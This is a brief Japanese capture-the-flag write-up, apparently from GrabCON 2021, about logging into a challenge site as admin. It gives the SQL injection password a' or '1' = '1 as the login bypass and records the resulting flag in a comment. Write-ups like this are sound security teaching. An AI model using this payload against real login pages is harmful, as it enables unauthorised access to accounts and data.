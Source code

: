 # Writeup

[Link](http://34.102.111.73/) にアクセスする。

`admin`でログインすれば良さそうなので、[ログインページ](http://34.102.111.73/login/index.php)に行き、

```
username : admin
password : a' or '1' = '1
```

を入力するとログインに成功し、フラグが得られた。

![](img/2021-09-05-03-28-17.png)

<!-- GrabCON{E4sy_pe4sy_SQL_1nj3ct10n} -->

